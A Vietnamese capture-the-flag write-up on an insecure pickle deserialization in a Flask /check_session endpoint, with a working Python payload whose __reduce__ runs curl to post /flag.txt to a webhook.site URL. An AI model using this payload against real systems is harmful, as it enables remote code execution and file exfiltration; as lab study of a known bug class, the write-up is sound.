



# Escape the session



Bài này khá hay và thú vị, sau khi đọc code thì mình phát hiện nó liên quan đến Python deserializes data sử dụng module pickle

Đoạn code quan trọng

```python
data = base64.b64encode(pickle.dumps(info)).decode('utf8')
```

Đoạn này có nhiệm vụ serialize dữ liệu chúng ta nhập vào, tuy nhiên nó không quan trọng lắm

```python
@app.route('/check_session', methods=['GET', 'POST'])
@limiter.limit("5/second")
def check_session():
    if request.method == 'GET':
        return render_template('check_session.jinja2')
    elif request.method == 'POST':
        session = request.form.get('session', '')
        try:
            info = pickle.loads(base64.b64decode(session))
        except:
            info = "Invalid session!"
        return render_template('check_session.jinja2', info=info)
```

Chúng ta cần quan tâm đến đoạn code này có nhiệm vụ deserialize từ một đoạn đã serialize mà không có lớp bảo vệ, ở đây chúng ta chỉ cần sử dụng đến /check_session 



```python
import pickle
import base64

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,('curl --data "@/flag.txt" https://webhook.site/8a273071-a70b-442b-a573-cf5e8581df43',))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
print(payload)
```

Đây là đoạn mã dùng để tạo ra session, lí do mình dùng webhook là vì lúc đầu mình RCE trực tiếp thì không thấy nó hiển thị ra cái gì, vì vậy mình thực hiện nó ở dụng blind


